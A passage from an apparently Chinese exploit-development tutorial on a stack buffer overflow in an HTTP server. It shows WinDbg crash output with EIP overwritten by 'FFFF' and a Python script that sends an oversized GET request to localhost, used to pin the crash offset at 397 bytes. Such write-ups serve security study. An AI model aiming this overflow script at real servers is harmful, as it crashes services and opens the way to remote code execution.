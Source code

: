 可以看到在F(0x46)处填充就已经crash了：

![Pasted image 20240328172548.png](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-ab6d1043f48ee3b5f359da3cc81b905009fbf2ae.png)

```php
0:002> g
(964.ba0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=000000c8 ecx=7c90f641 edx=00000007 esi=00c7dd66 edi=00c7e8aa
eip=46464646 esp=00c7dc6c ebp=0000000e iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202
46464646 ??              ???
```

查看当前栈回溯：

```php
0:003> kb
ChildEBP RetAddr  Args to Child              
WARNING: Frame IP not in any known module. Following frames may be wrong.
00c7dc68 46464646 46464646 46464646 46464646 0x46464646
00c7dc6c 46464646 46464646 46464646 46464646 0x46464646
00c7dc70 46464646 46464646 46464646 46464646 0x46464646
00c7dc74 46464646 46464646 46464646 46464646 0x46464646
00c7dc78 46464646 46464646 46464646 46464646 0x46464646
00c7dc7c 46464646 46464646 46464646 46464646 0x46464646
00c7dc80 46464646 46464646 46464646 46464646 0x46464646
00c7dc84 46464646 46464646 46464646 46464646 0x46464646
00c7dc88 46464646 46464646 46464646 46464646 0x46464646
00c7dc8c 46464646 46464646 46464646 46464646 0x46464646
00c7dc90 46464646 46464646 46464646 46464646 0x46464646
00c7dc94 46464646 46464646 46464646 46464646 0x46464646
00c7dc98 46464646 46464646 46464646 46464646 0x46464646
00c7dc9c 46464646 46464646 46464646 46464646 0x46464646
00c7dca0 46464646 46464646 46464646 46464646 0x46464646
00c7dca4 46464646 46464646 46464646 46464646 0x46464646
00c7dca8 46464646 46464646 46464646 46464646 0x46464646
00c7dcac 46464646 46464646 46464646 46464646 0x46464646
00c7dcb0 46464646 46464646 46464646 46464646 0x46464646
00c7dcb4 46464646 46464646 46464646 46464646 0x46464646
```

接下我是不断二分法去找什么时候crash的，类似下面的脚本，最后测出在"F"为397时会crash：

```python
import sys
import socket

# Create the buffer.
buffer = ""

for i in range(5):
    buffer += chr(ord('A') + i) * 1000

# 375-400
buffer += "F" * 400

HOST = '127.0.0.1'
PORT = 80

req = "GET /" + buffer + " HTTP/1.1\r\n\r\n"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.send(req.encode())

# Receive data until the socket is closed.
```